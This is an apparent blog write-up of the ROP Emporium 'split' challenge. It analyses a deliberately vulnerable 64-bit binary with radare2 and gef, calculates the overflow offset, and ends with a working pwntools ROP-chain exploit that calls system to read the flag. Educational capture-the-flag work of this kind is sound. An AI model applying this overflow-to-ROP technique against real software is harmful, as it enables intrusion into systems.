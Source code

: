 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named as "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named as "Split". In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, so we know shellcode cannot be executed off the stack and the binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions. The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see three interesting functions:

- main()
- pwnme()
- usefulFunction()

So lets disassemble the binary and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with /bin/ls,which list the files in current working directory and there is also usefullstring which /bin/cat flag.txt. so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary. Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}

As expected the program crashed and we have a valid crash scenario here.


###### Calculating offset

Copy the value in RSP to pattern offset tool.
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

#### Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

> UsefulString “/bin/cat flag.txt” 

We can find all the strings in binary using rabin2. As we can see from the below img the address of UsefullString is (0x601060)


![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}


> sytem@plt

Using objdump we can grab the address of system@plt. As we can see from below img the address of systemis(0x4005e0)

![source-01](/img/Screenshot_2020-05-16_07-41-34.png	){: .align-left}


> pop rdi; ret

I used ROPGadget to find the pop rdi ret, as we can see from the below img the address is (0x400883)

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



#### Exploitation 

As we have all the pieces to put together our ROPChain, Now let’s craft the payload.

Junk + pop_rdi + bin_cat + system_plt

b"A" * 40 + 0x0000000000400883 + 0x00601060 + 0x4005e0



Final exploit using pwntools:

```
 #!/usr/bin/python                                                                                                                                                    
 from pwn import *                                                                                                                                                    
                                                                                                                                                                      
 def main():                                                                                                                                                          
     context.log_level = "info"                                                                                                                                       
     elf = ELF('./split')                #binary path                                                                                                                 
     p = process(elf.path)                                                                                                                                            
     offset = b"A" * 40                  # RIP Offset at 40                                                                                                           
     usefullString = p64(0x00601060)     # Rabin2 -z split                                                                                                            
     system_plt = p64(0x4005e0)          # objdump -d split                                                                                                           
     pop_rdi = p64(0x0000000000400883)   # ROPgadget.py --binary split | grep 'pop rdi'                                                                               
     payload = offset + pop_rdi + usefullString + system_plt                                                                                                          
     p.sendlineafter(">",payload)                                                                                                                                     
     print (p.recvall())                                                                                                                                              
                                                                                                                                                                      
 if __name__ == "__main__":                                                                                                                                           
     main()   
```

w00t we got the flag!

###### End 

Thats the end of split challenge, we learned how to build a simple ROPChain. Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium






